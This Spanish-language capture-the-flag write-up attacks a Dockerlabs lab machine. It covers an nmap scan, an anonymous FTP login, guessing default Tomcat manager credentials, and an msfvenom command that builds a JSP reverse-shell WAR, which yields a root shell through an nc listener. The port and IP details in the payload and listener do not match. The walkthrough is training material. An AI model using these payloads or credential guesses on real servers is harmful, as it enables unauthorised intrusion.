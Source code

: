# Máquina -Pn

------------

## Reconocimiento 

Comenzamos realizando un escaneo con **nmap** para comprobar los puertos abiertos y sus respectivas versiones de la máquina objetivo.


```shell
# Nmap 7.94SVN scan initiated Wed Jun 19 14:28:31 2024 as: nmap -p- -sC -sV -sS --min-rate 5000 -n -Pn -oN nmap 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up (0.0000020s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-title: Apache Tomcat/9.0.88
|_http-favicon: Apache Tomcat
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jun 19 14:28:38 2024 -- 1 IP address (1 host up) scanned in 7.61 seconds
```

El escaneo muestra abierto el puerto 21 (ftp) y el puerto 8080 (http). Como permite acceder al puerto 21 realizamos una conexión ftp y obtenemos el siguiente texto.

```shell
┌──(miguel㉿miguel)-[~/Desktop/machines/Dockerlabs/pn]
└─$ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2:miguel): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||34548|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
226 Directory send OK.
ftp> 
```
Obtenemos el fichero **tomcat.txt** y lo imprimimos, mostrando lo siguiente.

```shell
┌──(miguel㉿miguel)-[~/Desktop/machines/Dockerlabs/pn]
└─$ cat tomcat.txt 
Hello tomcat, can you configure the tomcat server? I lost the password...
```
Por lo que procedemos a investigar la página web en el puerto 8080.

![image](https://github.com/miiguelpalaces/Machine-Upload-Dockerlabs-/assets/129620259/ebb55f93-3079-49cd-b74a-d34f7419d8e6)

## Explotación

Tras investigar, decidimos tratar de acceder a la direccion /manager que nos solicita una contraseña.
Asi que probamos las siguientes credenciales para la web tomcat, en espera de que funcione alguna.

```shell
admin:admin

tomcat:tomcat

admin:

admin:s3cr3t

tomcat:s3cr3t

admin:tomcat
```

Finalmente, podemos acceder con **tomcat:s3cr3t**.

Ahora, como podemos subir un archivo **.war** realizamos una reverse shell.
Investigando, encontramos la manera de crear la conexión a través de **msfvenom** y creamos el payload.

```shell
┌──(miguel㉿miguel)-[~/Desktop/machines/Dockerlabs/pn]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.123 LPORT=3155 -f war > RevShell.war
```
Subimos el archivo a la páquina web.

![image](https://github.com/miiguelpalaces/Machine-Upload-Dockerlabs-/assets/129620259/54a5ab97-9bad-4e1c-a83d-ddc59db41692)

Escuchamos por el puerto 5555 y obtenemos acceso directamente a la máquina.
Al tratar de ver que usuario somos, vemos que hemos accedido directamente con el usuario **root**.

```shell
┌──(miguel㉿miguel)-[~/Desktop/machines/Dockerlabs/pn]
└─$ nc -lvnp 5555
listening on [any] 5555 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 58516
whoami
root
```





